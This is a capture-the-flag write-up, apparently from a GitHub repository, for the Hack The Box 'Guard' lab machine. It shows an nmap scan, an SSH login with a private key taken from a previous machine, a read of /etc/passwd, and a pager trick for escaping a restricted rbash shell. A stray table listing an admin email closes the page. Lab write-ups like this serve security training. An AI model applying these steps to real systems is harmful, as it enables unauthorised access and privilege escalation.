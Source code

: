 ## ------>> Guard <<--------

// We have daniel's ssh private key from last machine (MarkUp).

// We start with nmap scan

    $ nmap -sC -sV -A -Pn 10.10.10.50 -p-
    
    Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-02 20:22 EDT
    Connect Scan Timing: About 95.09% done; ETC: 20:35 (0:00:37 remaining)
    Nmap scan report for 10.10.10.50
    Host is up (0.44s latency).
    Not shown: 65534 closed ports
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 2a:64:23:e0:a7:ec:1d:3b:f0:63:72:a7:d7:05:57:71 (RSA)
    |   256 b3:86:5d:3d:c9:d1:70:ea:d6:3d:36:a6:c5:f2:be:5d (ECDSA)
    |_  256 c0:5b:13:0f:d6:e6:d1:71:2d:55:e2:4a:e2:27:0e:c2 (ED25519)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


// Since we know all the machines in starting point are "Chained-Up", and we have ssh private key for user daniel from last machine 
we can try to connect with him

    $ ssh -i ssh_daniel.key daniel@10.10.10.50

    Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-88-generic x86_64)
    daniel@guard:~$ id
    uid=1000(daniel) gid=1000(picasso) groups=1000(picasso),27(sudo)


// cat not work but less yes

    daniel@guard:~$ less user.txt
    209333....................
    user.txt (END)
    
    
// cat /etc/passwd we can see that daniel do not have regolar shell but have rbash

    daniel@guard:~$ cat /etc/passwd
    ...
    daniel:x:1000:1000:picasso:/home/picasso:/bin/rbash
    ...

// there is a trick to add some confirguration like vim with command more

// and shrink the window to small as possible then you can add ur on syntax

// and execute other shell (our case we want /bin/bash so locate !bash)
![Image 1](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Guard/1.png)
![Image 2](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Guard/2.png)
![Image 3](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Guard/3.png)





Access ID | Name | Email
----------|------|-------
34322 | admin | admin@megacorp.com
